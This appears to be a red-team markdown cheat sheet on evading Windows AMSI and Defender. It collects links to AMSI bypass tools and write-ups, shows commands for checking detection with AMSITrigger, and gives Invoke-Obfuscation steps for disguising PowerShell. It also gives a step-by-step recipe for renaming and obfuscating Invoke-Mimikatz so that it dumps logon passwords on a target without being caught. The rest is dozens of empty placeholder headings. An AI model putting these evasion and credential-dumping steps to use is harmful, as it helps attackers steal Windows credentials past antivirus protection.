


## AMSI explaintation
```
https://learn.microsoft.com/en-us/windows/win32/AMSI/antimalware-scan-interface-portal
```
### AMSI Bypass techniques
```
https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
https://offensivedefence.co.uk/posts/making-amsi-jump/
https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim
https://blog.f-secure.com/hunting-for-amsi-bypasses/
https://www.contextis.com/us/blog/amsi-bypass
https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass
https://amsi.fail/
https://rastamouse.me/blog/asb-bypass-pt2/
https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
https://www.youtube.com/watch?v=F_BvtXzH4a4
https://www.youtube.com/watch?v=lP2KF7_Kwxk
https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
```
## Use AmsiTrigger to check wether AMSI Bypass Script will be catched by AMSI
### download
```
https://github.com/RythmStick/AMSITrigger/
```
### Usage. Real Time Protection must be enabled
```
AMITrigger.exe -i $file -f1
```
## Use InvokeObfuscation to obfuscate powershell scritps
### Import Module
```
Import-Module ./Invoke-Obfuscation.psd1
```
### Start Module
```
Invoke-Obfuscation
```
### Set Script File
```
set scriptblock §file
```
### Obfuscate. There are many other ways to obfuscate it
```
TOKEN\ALL\1
```

### Obfuscate. There are many other ways to obfuscate it
```
Token\\String\\1,2,\\Whitespace\\1
```
Above command will use follwing obfuscation in the corresponding order</br>



### finally save the obfuscated script 
```
OUT $outputfile
```
###
```
```
###
```
```
## Mimikatz Defender Evasion
### Download Mimikatz Powershellscript from
```
https://github.com/g4uss47/Invoke-Mimikatz/blob/master/Invoke-Mimikatz.ps1
```
### Rename all 'Invoke-Mimikatz' to 'Invoke-Bla' strings 

### add follwing line at the end of script
```
Invoke-Bla "privilege::debug token::elevate sekurlsa::logonpasswords"
```
### Use Invoke-Obfuscation with Token\All\1 

### Execute the script as Invoke-Bla.ps1 on target
```
powershell -c "./Invoke-Bla.ps1"
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
